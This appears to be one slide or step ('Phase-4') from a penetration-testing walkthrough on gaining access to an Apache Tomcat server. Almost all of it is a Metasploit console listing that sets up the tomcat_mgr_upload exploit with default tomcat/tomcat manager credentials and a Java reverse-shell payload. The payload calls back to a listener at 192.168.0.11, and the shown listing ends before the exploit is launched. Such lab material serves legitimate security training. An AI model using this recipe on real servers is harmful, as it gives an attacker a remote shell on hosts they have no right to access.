

# Phase-4
Gaining access using metasploit:
Open msfconsole in terminal
msf5 > search tomcat
msf5 > use exploit/multi/http/tomcat_mgr_upload
msf5 exploit(multi/http/tomcat_mgr_upload) > set rhost 192.168.0.12
rhost => 192.168.0.12
msf5 exploit(multi/http/tomcat_mgr_upload) > set rport 8080
rport => 8080
msf5 exploit(multi/http/tomcat_mgr_upload) > set payload java/shell_reverse_tcp
payload => java/shell_reverse_tcp
msf5 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf5 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf5 exploit(multi/http/tomcat_mgr_upload) > set lhost 192.168.0.11
lhost => 192.168.0.11
msf5 exploit(multi/http/tomcat_mgr_upload) > set lport 8080
lport => 8080